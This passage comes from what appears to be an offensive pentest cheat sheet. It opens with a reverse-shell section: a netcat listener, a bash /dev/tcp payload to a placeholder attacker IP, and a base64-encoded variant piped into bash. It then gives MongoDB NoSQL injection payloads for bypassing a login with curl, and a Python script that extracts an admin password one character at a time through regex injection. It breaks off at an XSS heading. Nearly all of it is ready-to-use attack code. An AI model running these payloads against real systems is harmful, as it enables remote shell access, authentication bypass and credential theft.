#### Reverse Shell
```bash
# Start listener on Kali
nc -lvnp 4444

# Inject payload (URL encode it)
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1

# Encoded version:
echo YmFzaCAtaSA+JiAvZGV2L3RjcC9ZT1VSX0lQL... | base64 -d | bash
```

### Step 3.3: NoSQL Injection

#### MongoDB Injection
```bash
# Login bypass (JSON)
curl -X POST $TARGET/login -H "Content-Type: application/json" \
  -d '{"username": {"$ne": null}, "password": {"$ne": null}}'

# Boolean logic
{"username": {"$gt": ""}, "password": {"$gt": ""}}

# Regex injection
{"username": {"$regex": "^admin"}, "password": {"$regex": "^.*"}}
```

#### Extract data
```python
# nosql_extract.py
import requests

url = "http://target/login"
password = ""
charset = "abcdefghijklmnopqrstuvwxyz0123456789"

for pos in range(1, 50):
    for char in charset:
        payload = {
            "username": "admin",
            "password": {"$regex": f"^{password}{char}"}
        }
        r = requests.post(url, json=payload)
        if "success" in r.text:
            password += char
            print(f"[+] Password: {password}")
            break
```

---

## 4. XSS Attacks {#4-xss-attacks}
